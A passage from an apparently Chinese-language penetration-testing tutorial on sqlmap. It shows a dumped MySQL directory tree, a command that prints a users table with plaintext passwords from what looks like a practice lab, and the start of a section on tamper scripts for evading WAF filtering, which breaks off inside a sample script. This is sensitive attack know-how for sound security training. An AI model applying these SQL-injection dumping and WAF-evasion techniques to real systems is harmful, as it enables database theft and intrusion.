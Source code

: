 │&nbsp; &nbsp;├── SCHEMATA.csv
│&nbsp; &nbsp;├── SESSION_STATUS.csv
│&nbsp; &nbsp;├── SESSION_VARIABLES.csv
│&nbsp; &nbsp;├── STATISTICS.csv
│&nbsp; &nbsp;├── USER_PRIVILEGES.csv
│&nbsp; &nbsp;└── VIEWS.csv
├── mysql
│&nbsp; &nbsp;├── help_category.csv
│&nbsp; &nbsp;├── help_keyword.csv
│&nbsp; &nbsp;├── help_relation.csv
│&nbsp; &nbsp;├── help_topic.csv
│&nbsp; &nbsp;├── proxies_priv.csv
│&nbsp; &nbsp;├── servers.csv
│&nbsp; &nbsp;└── user.csv
├── performance_schema
│&nbsp; &nbsp;├── cond_instances.csv
│&nbsp; &nbsp;├── ......
│&nbsp; &nbsp;└── threads.csv
└── security
&nbsp; &nbsp; ├── emails.csv
&nbsp; &nbsp; ├── referers.csv
&nbsp; &nbsp; ├── uagents.csv
&nbsp; &nbsp; ├── users.csv
&nbsp; &nbsp; └── users.csv.1
5 directories, 70 files
<span class="hljs-meta">Ubuntu#</span><span class="bash"> cat /root/.<span class="hljs-built_in">local</span>/share/sqlmap/output/localhost/dump/security/users.csv</span>
id,username,password
1,Dumb,Dumb
2,Angelina,I-kill-you
3,Dummy,p@ssword
4,secure,crappy
5,stupid,stupidity
6,superman,genious
7,batman,mob!le
8,admin,admin
9,admin1,admin1
10,admin2,admin2
11,admin3,admin3
12,dhakkan,dumbo
14,admin4,admin4
</code></pre>
<h4 data-nodeid="53531">利用 tamper 绕过 WAF</h4>
<p data-nodeid="53532">在云时代网络中，很多部署网站的服务器都会提供 WAF（Web 防火墙）服务。在未部署的情况下，云厂商如果检测到 Web 攻击请求，可能会发短信通知你开启 WAF 服务。之前我在一次渗透测试工作中就是如此：原本未部署 WAF 的网站，在 SQL 注入的过程中，突然就开启 WAF 拦截了。</p>
<p data-nodeid="53533">tamper 正是对 sqlmap 进行扩展的一系列脚本，可在原生 payload 的基础上做进一步的处理以绕过 WAF 拦截。sqlmap 里有个 tamper 目录，里面放着很多脚本，比如编码、字符替换、换行符插入。</p>
<p data-nodeid="53534">我们先来看下 sqlmap 自带的一个最简单的，用于转义单引号的 tamper 脚本：</p>
<pre class="lang-python" data-nodeid="53535"><code data-language="python"><span class="hljs-comment">#!/usr/bin/env python</span>
<span class="hljs-string">"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""</span>
<span class="hljs-keyword">from</span> lib.core.enums <span class="hljs-keyword">import</span> PRIORITY
__priority__ = PRIORITY.NORMAL
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">dependencies</span>():</span>
&nbsp; &nbsp; <span class="hljs-keyword">pass</span>
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">tamper</span>(<span class="hljs-params">payload, **kwargs</span>):</span>
&nbsp; &nbsp; <span class="hljs-string">"""
&nbsp; &nbsp; Slash escape single and double quotes (e.g. ' -&gt; \')